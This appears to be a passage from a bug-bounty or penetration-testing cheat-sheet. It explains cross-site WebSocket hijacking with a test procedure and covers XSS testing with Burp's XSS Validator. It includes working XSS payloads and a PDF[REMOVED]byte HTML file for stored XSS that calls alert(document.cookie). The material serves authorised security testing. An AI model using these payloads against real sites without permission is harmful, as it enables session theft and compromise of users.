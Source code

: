 Websockets are fairly rare but essentially they allow an application too set up a full duplex communcation allowing users to read and post data simultaneously

Common apps using WebSockers are Chat applications as they want to read/send data at the same time.

CSWSH is similar to CSRF as we use the targets cookie to make the request, we also require the target to visit a page served by us, the difference is instead of sending a POST request in the context of the user we send a websocket connection.

```powershell
We can use this website to test for the vuln http://websocket.org/echo.html

To Test for this we do the following

1) Log into Website using WebSockets
2) Open Second Tab
3) Visit Link http://websocket.org/echo.html
4) Test if we can make connections as the client.


There is a nice PoC on the Bug Bounty Playbook
```

#### Cross-Site Scripting (XSS)

Attack Scenario:
![img](https://securityzines.com/assets/img/flyers/downloads/rxss.png)

```powershell
#https://github.com/PortSwigger/xss-validator

#https://github.com/payloadbox/xss-payload-list

1) Start xss.js phantomjs $HOME/.BurpSuite/bapps/xss.js
2) Send Request to Intruder
3) Mark Position
4) Import xss-payload-list from $Tools into xssValidator
5) Change Payload Type to Extension Generated
6) Change Payload Process to Invoke-Burp Extension - XSS Validator
7) Add Grep-Match rule as per XSS Validator
8) Start.


Succesful Payloads so Far

<p ondragend=[1].map(prompt) draggable="true">dragMe</p>

<img/src=x onerror=prompt(1)>


I had success recently also by uploading a .html file with pdf magic bytes at the strat with arbitary javascript to obtain stored XSS on a program.

Payload Below:


%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<h1>This is NOT a PDF!</h1> <img src=x onerror=alert(document.cookie)>
```